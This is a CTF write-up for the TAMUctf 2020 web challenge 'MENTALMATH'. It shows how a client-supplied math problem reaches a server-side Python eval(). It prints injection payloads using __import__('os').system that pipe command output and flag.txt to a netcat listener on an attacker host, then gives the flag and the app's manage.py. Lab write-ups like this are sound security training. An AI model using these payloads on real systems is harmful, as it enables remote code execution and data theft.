 # MENTALMATH Writeup

### TAMUctf 2020 - Web 262

> My first web app, check it out!
> 
> http://mentalmath.tamuctf.com
>
> Hint: I don't believe in giving prizes for solving questions, no matter how many!

#### Python code injection

- Math problem can be forged at userside.
- Changed problem to `1 + 2 + 3` and sent `6`. Correct.
- Invalid problem such as `&DN` gives 500 response code.
- Guess serverside uses some kind of `eval()` function.
- Let problem be `len('1234')` and sent `4`. Correct!
- It seems python!
- Listen by `nc -lvp [PORT]` on my local server.
- Make math problem `__import__('os').system('ls | nc [IP] [PORT]')`. Received output:

```
db.sqlite3
flag.txt
manage.py
mathgame
mentalmath
requirements.txt
```

- Python confirmed.
- Make math problem `__import__('os').system('cat flag.txt | nc [IP] [PORT]')` to get flag:

```
gigem{1_4m_g0od_47_m4tH3m4aatics_n07_s3cUr1ty_h3h3h3he}
```

- I also read `manage.py` because I was curious about server side operation. `manage.py` src:

```python
#!/usr/bin/env python
import os
import sys

if __name__ == '__main__':
    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'mentalmath.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)
```
